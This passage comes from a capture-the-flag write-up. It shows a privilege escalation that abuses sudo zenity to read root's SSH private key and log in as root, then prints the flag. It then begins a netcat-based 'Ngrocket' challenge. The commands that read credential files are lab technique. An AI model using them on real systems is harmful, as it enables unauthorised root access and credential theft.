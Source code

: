 Doing this, we find a `.ssh` directory in root's directory. In there, lo and behold, there is a `id_rsa` private key file. Using the same `--filename`+`--text-info` from before, we can read the file's contents, and copy+paste to a local file we have normal access to:

```bash
sudo zenity --filename=/root/.ssh/id_rsa --text-info
# copy+paste to ~/root_id_rsa
chmod 700 ~/root_id_rsa
```

Now, we can just `ssh -i root_id_rsa root@localhost` and have full root privelege! All that's left is to make `/root/get_flag` executable and execute it.

```bash
chmod +x /root/get_flag
./root/get_flag
```

Flag is `flag{d1fbeab9101e0ee7fc1342e4c96b4603}`.


## Scripting

### Ngrocket
> Author: @JohnHammond#6971
>
> Didn't know this party was BYOB, bring-your-own-box? No worries! Blast off as many rockets as you would like to a location of your choosing! Hope the right one lands...
>
> Press the Start button on the top-right to begin this challenge.

Connecting to the endpoint, we get a nice ascii art looking rocket, and the service's interface:

```
nc challenge.nahamcon.com 30574

                           *     .--.
                                / /  `
               +               | |
                      '         \ \__,
                  *          +   '--'  *
                      +   /\
         +              .'  '.   *
                *      /======\      +
                      ;:.  _   ;
                      |:. (_)  |
                      |:.  _   |
            +         |:. (_)  |          *
                      ;:.      ;
                    .' \:.    / `.
                   / .-'':._.'`-. \
                   |/    /||\    \|
                 _..--'''````'''--.._
           _.-'``                    ``'-._
         -'                                '-



Thanks for joining us at the ngrocket launch pad!
We will send a rocket to a location of your choosing.
Please give us your coordinates in the form like so...
   <host>:<port>
Where would you like this ngrocket to land?
>
```
